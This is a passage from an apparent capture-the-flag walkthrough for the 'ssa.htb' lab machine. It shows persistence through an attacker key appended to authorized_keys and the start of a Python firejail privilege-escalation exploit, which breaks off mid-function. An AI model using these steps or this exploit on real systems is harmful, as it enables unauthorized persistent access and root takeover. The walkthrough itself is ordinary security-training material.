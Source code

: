 ### Persistance on Atlas

Seeing we need more than one shell active on the **atlas** account i decided to install an ssh key making it easy for me to connect to it unjailed as much as i wanted. First generate an SSH key on your own machine.

```
ssh-keygen -t rsa
```

Then copy your ssh public key to the target machine

```
echo 'ssh-rsa SNIPPED= kali@kali' >> ~/.ssh/authorized_keys
```

So now we can log onto Atlas using the sshkey as follows

```
ssh -i ~/.ssh/id_rsa atlas@ssa.htb
```

### Privesc to root

So now we have a user that is able to run firejail. we can now run the exploit  we mentioned earlier using the following python code.

```python
#!/usr/bin/python3

import os
import shutil
import stat
import subprocess
import sys
import tempfile
import time
from pathlib import Path

# Print error message and exit with status 1
def printe(*args, **kwargs):
    kwargs['file'] = sys.stderr
    print(*args, **kwargs)
    sys.exit(1)

# Return a boolean whether the given file path fulfils the requirements for the
# exploit to succeed:
# - owned by uid 0
# - size of 1 byte
# - the content is a single '1' ASCII character
def checkFile(f):
    s = os.stat(f)

    if s.st_uid != 0 or s.st_size != 1 or not stat.S_ISREG(s.st_mode):
        return False

    with open(f) as fd:
        ch = fd.read(2)

        if len(ch) != 1 or ch != "1":
            return False

    return True

def mountTmpFS(loc):
    subprocess.check_call("mount -t tmpfs none".split() + [loc])

def bindMount(src, dst):
```